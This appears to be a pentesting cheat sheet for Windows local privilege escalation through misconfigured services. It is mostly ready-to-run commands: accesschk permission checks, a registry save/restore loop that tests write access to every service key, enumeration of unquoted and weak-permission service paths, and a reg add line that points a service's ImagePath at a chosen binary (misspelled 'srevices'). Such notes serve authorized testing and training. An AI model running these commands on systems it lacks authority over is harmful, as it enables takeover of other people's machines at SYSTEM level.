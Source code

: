 check the required privilege level for each service.

```
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
```

check if you can modify registry entries of any services

```
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services
​
#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a
​
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Check if **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** have FullControl. In that case you can change the binary that is going to be executed by the service.

To change the Path of the binary executed:

```
reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

### find all service executables

```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt
```

if wmic is not available :

```
sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

### search for unquoted service paths

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

### check for weak service permissions

```
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```
